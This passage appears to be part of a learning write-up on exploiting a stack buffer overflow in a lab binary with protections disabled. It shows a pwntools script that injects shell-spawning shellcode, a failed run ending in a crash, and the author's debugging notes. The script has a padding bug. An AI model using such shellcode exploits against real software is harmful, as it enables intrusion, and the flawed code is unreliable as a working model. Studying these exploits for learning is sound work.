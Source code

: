 Ahhhhh, I see the problem now. If we take a look at our stack pointer register

```c
$rsp   : 0x00007fffffffe0c8  →  0x00007fffffffe010  →  0x0000000000000000
```

It ends in an `8`. This means that our stack pointer isn't correctly aligned, so it doesn't know where to go. That's alright, we just have to correct that in our exploit script

```c
from pwn import *

e = context.binary = ELF("./bof")
p = process(e.path)
libc = e.libc

input("Waiting....")
shellcode = asm(shellcraft.sh())
payload = shellcode
payload += payload.ljust(72, b"A")
payload += p64(0x7fffffffe010)

p.sendline(payload)
p.interactive()
```

And now run it

```c
$ python exploit-x86_64.py
[*] './bof'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Starting local process './bof': pid 64784
Waiting....
[*] Switching to interactive mode
What are you going to say?
Thank you, have a nice day!
[*] Got EOF while reading in interactive
$ 
[*] Process './bof' stopped with exit code -11 (SIGSEGV) (pid 64784)
[*] Got EOF while sending in interactive
```

Aannndddd that didn't work, when attaching it again we see our stack hasn't been aligned.

After debugging for 2 hours, I'm managed to get my shellcode to be jumped to, but the actual pwntools shellcode doesn't work, which is ... very odd. I noticed that my shellcode wasn't the actual place where the binary was jumping to, but a couple of addresses before hand. So I decided to nop to the address, which works. Then the shellcode goes through, but doesn't end up executing the last 3 instructions, but jumps somewhere. 
